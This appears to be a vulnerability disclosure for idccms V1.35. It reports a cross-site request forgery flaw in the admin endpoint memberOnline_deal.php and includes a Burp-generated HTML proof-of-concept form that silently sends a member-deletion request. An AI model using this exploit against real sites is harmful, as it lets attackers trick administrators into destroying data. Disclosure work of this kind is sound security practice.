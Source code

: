 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/memberOnline_deal.php?mudi=del&dataType=&dataID=6

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/memberOnline_deal.php?mudi=del&dataType=&dataID=6" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
